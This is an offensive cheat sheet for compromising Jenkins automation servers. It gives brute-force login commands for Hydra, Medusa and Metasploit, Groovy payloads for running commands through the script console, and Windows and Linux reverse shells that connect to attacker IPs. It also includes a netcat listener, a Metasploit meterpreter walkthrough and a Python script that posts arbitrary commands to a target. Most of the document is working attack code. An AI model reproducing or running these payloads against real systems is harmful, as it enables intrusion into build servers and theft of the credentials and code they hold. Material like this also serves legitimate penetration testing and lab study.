 ### **INTRODUCTION**

Jenkins is an open-source automation server used for continuous integration and delivery (CI/CD) in software development. It automates tasks like building, testing, and deploying software, and supports a vast range of plugins to extend its capabilities.

### **IDENTIFYING JENKINS VERSION**

1.  Checking Version on Login Page:  
    `Look at the bottom of the Jenkins login page for the version number.`
2.  Using Jenkins API:  
    `curl -s http://[JENKINS-IP]/api/json | jq .`
3.  From the System Information page:  
    After logging in, navigate to `Manage Jenkins` → `System Information`.

### **BRUTE FORCE CREDENTIALS**

1.  Brute-Forcing with Metasploit:  
    `auxiliary/scanner/http/jenkins_login`
2.  Brute-Forcing with Hydra:  
    `hydra -l admin -P /path/to/wordlist.txt [JENKINS-URL] http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Submit=Log+in:Invalid username or password" -V`
3.  Brute-Forcing with Medusa:  
    `medusa -h [JENKINS-URL] -U /path/to/usernames.txt -P /path/to/wordlist.txt -M web-form -m DIR:/j_acegi_security_check -m FORM:'/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&Submit=Log+in:Invalid username or password'`

### **REMOTE CODE EXECUTION VIA SCRIPT CONSOLE**

1.  Access Script Console:  
    `http://[JENKINS-DOMAIN]:8080/script`
2.  Executing a Simple whoami:
    ```Groovy
    def cmd = 'whoami'
    def sout = new StringBuffer(), serr = new StringBuffer()
    def proc = cmd.execute()
    proc.consumeProcessOutput(sout, serr)
    proc.waitForOrKill(1000)
    println sout
    ```

3.  Executing Linux Commands:
    ```Groovy
    def cmd = "cmd.exe /c dir".execute();
    println("${cmd.text}");
    ```
    
4.  Windows Reverse Shell:
    ```Groovy
    String host="10.10.14.3";
    int port=1337;
    String cmd="cmd.exe";
    Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
    ```
    
5.  Linux Reverse Shell:
    ```Groovy
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/1337;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```
    
6 . Run listener with rlwrap to make the shell more usable  
    `sudo rlwrap -cAr nc -lvnp 1337`

### **AUTOMATING EXPLOITATION WITH METASPLOIT**

```bash
# 1. Launch Metasploit
msfconsole

# 2. Load the Jenkins script console exploit
use exploit/multi/http/jenkins_script_console

# 3. Set the target IP address
set RHOSTS [TARGET-IP]

# 4. Set the Jenkins port (default is 8080)
set RPORT 8080

# 5. Set the path to the script console
set TARGETURI /script

# 6. Choose your payload (reverse shell using Meterpreter)
set PAYLOAD java/meterpreter/reverse_tcp

# 7. Set your local IP address (attacker)
set LHOST [LOCAL-IP]

# 8. Set the port to receive the reverse shell
set LPORT [LOCAL-PORT]

# 9. Run the exploit
exploit
```
### **AUTOMATING EXPLOITATION WITH PYTHON SCRIPT**

```Python
#!/usr/bin/env python3
import requests
import argparse
import re
import json


import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

parser = argparse.ArgumentParser(description = 'Jenkins Admin Groovy Console exec')
parser.add_argument('url', type=str)
parser.add_argument('-u', '--user', type=str)
parser.add_argument('-p', '--password', type=str)
parser.add_argument('-c', '--command', type=str, required=True)
parser.add_argument('-C', '--cookie', type=str)
parser.add_argument('-K', '--crumb', type=str)

args = parser.parse_args()
URL = args.url
COOKIES = {}
if args.user and args.password:
    AUTH = (args.user, args.password)
else:
    AUTH = None
if args.cookie:
    COOKIES = json.loads(args.cookie)

DATA = {'script':"def proc = ['bash', '-c', '''{}'''].execute();def os = new StringBuffer();proc.waitForProcessOutput(os, os);println(os.toString());".format(args.command)}

if args.crumb:
    DATA.update(json.loads(args.crumb))

r = requests.post(URL + '/script', data=DATA, auth=AUTH, cookies=COOKIES, verify=False)
m = re.search('<h2>Result</h2><pre>(.*)</pre>', r.text, flags=re.DOTALL)
if m:
    print(m.group(1))
else:
    print('oops')
    print(r.text)
```